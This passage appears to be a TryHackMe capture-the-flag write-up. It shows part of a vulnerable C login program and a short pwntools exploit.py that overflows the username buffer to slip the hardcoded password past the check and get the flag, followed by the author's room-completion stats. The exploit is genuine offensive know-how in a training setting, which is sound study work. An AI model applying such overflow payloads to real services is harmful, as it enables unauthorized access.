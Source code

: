 ```bash

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

<br>

<h3>exploit.py</h3>

```bash
from pwn import *

conn = remote('10.10.172.152', 1337)
payload = b"bytereaper\x00" + b"A" * 101 + b"5up3rP4zz123Byte"
conn.recvuntil(b"Username:")
conn.sendline(payload)
print(conn.recvall().decode())
```


![image](https://github.com/user-attachments/assets/bc0a0f4d-405b-4491-ab41-1464ce719e61)


<br>
<br>

<h1 align="center">Room Completed</h1>
<p align="center"> <img width="1000px" src="https://github.com/user-attachments/assets/d9a7aaac-24fc-4b0e-b239-0b6c6890f3a2"><br>
                   <img width="1000px" src="https://github.com/user-attachments/assets/01793fce-bd28-4b74-9dfb-9c50e3135446"></p>
                   
<h1 align="center">My TryHackMe Journey</h1>


<div align="center">

| Date<br>          |  Streak<br>|   All Time<br>Global   |   All Time<br>Brazil |  Monthly<br>Global   |  Monthly<br>Brazil   |  SHOGUN<br>points  |   Rooms<br>completed  |  Badges<br> |
| :---------------: | :--------: | :--------------------: | :------------------: | :------------------: | :------------------: | :----------------: | :-------------------: | :---------: |
| Jun 4, 2025       |     394    |          200ᵗʰ         |            4ᵗʰ       |       3,295ᵗʰ        |           8ᵗʰ        |       106,181      |             764       |    62       |
